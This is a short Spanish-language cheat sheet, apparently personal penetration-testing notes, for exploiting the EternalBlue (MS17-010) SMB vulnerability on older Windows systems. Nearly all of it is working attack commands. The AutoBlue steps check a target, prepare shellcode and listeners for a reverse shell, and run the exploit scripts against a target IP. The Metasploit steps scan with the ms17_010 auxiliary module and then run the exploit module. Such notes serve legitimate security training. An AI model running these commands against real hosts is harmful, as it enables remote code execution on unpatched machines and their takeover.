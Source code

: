 
Windows antigüos (desde el Vista hasta el 10) y versiones SMB antigüas.

- Explotación Eternalblue manual

[AutoBlue (Python script)](https://github.com/3ndG4me/AutoBlue-MS17-010)

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
pip install -r requirements.txt
python3 eternal_checker.py <TARGET-IP>
```

Luego según el O.S de la víctima habría que usar el 7, 8 o 10.

*PARA EXPLOTARLO*

Forma 1 (más compleja, usar el exploit según la versión de Windows objetivo) **(probar python2 y python3)

***ES POSIBLE QUE PYTHON2 DE PROBLEMAS DE DEPENDENCIAS CON IMPACKET, INSTALAR PIP2 Y DESPUÉS INSTALAR IMPACKET DESCARGÁNDOLO Y EJECUTANDO CON PYTHON2 EL SETUP.PY

Preparar shellcodes y listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

Explotación

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

Es posible que necesite ejecutarse varias veces para funcionar
```

Forma 2 (más fácil)

```
python2.7 zzz_exploit.py <IP>
```

- Explotación Eternalblue Metasploit.

Lanzamos Metasploit para comprobar si el objetivo es vulnerable.

```
service postgresql start && msfconsole -q
use auxiliary/scanner/smb/smb_ms17_010
set rhosts IPobj
```

Si es vulnerable lo explotamos

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts IPobj
exploit
```

